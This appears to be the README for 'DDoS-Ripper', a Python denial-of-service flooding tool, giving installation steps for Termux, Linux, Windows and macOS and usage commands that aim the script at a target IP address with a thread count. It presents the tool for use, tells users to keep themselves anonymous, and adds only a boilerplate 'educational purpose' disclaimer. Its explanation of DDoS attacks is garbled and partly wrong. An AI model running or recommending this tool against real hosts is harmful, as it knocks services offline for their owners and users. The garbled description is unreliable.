 # DDoS-Ripper

# What is a DDoS Attack?

A Distributable Denied-of-Service (DDOS) attack server that cuts off targets or surrounding infrastructure in a flood of Internet traffic

DDoS attacks achieve effectiveness using multiple compromised computer systems as a source of attack traffic. Search engines may include computers and other network resources such as IoT devices.
From a higher level, the DDOS attack is like an unexpected traffic jam stuck on a highway, preventing regular traffic from reaching its destination.

## NOTE (Please, make sure you have installed python 3 )

![dddd](https://user-images.githubusercontent.com/49250151/96265488-57e53d00-0f7a-11eb-8936-ce2e9a2c42cd.PNG)

## For Termux

To use the DRipper type the following commands in Termux:

`pkg install git -y`

`pkg install python -y`

`pkg install python3 -y`

`cd DDoS-Ripper`
`$ ls`

`$ python3 DRipper.py`

## USGAE

`python3 DRipper.py -s [ip Address] -t 135`

`example: python3 DRipper.py -s 0.00.00.00 -t 135`

## For Debian-based GNU/Linux distributions

To use the application, type in the following commands in GNU/Linux terminal.

`sudo apt install git`
`cd DDoS-Ripper`
`$ ls`
`$ python3 DRipper.py` OR `python2 DRipper.py`

## For Windows

`cd DDoS-Ripper`
` ls`

`python3 DRipper.py` OR `python DRipper.py`

`python3 DRipper.py -s [ip Address] -t 135`

`example: python3 DRipper.py -s 0.00.00.00 -t 135`

## For MacOS

Install Brew and Install dependencies (python 3)

# Note:

If you find any problems than please write on issue github and to our Telegram Group. Don't use for revenge! Make sure your anonymity!
It's made for just testing purpose.
We are not responsible for any abuse or damage caused by this program. Only for Educational Purpose.
Thanks.

## Requirments ▶

●🖥Linux OS( Kali 🐉 Ubuntu )

●📱Termux >

●🖥Windows

●🖥MAC
